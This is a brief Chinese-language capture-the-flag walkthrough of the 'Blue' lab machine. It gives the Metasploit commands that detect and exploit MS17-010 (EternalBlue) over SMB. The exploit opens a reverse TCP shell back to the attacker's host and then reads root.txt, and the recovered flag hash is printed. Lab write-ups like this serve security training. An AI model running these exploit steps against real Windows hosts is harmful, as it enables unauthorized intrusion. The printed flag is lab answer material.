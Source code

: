 # Blue

> victim: 10.10.10.40

### Light Scan

只有139和445

尝试一下ms17-010和ms08-067

## smb尝试

### ms17-010(msf)

#### 检测

```bash
msfconsole

use auxiliary/scanner/smb/smb_ms17_010
set rhost 10.10.10.40
run
```

检测可行

#### 攻击

```bash
use exploit/windows/smb/ms17_010_psexec
set payload windows/shell/reverse_tcp
set rhost 10.10.10.40
set lhost 10.10.14.19
run
```

直接KO...

```shell
type "C:\Users\Administrator\Desktop\root.txt"
```

```
ff548eb71e920ff6c08843ce9df4e717
```

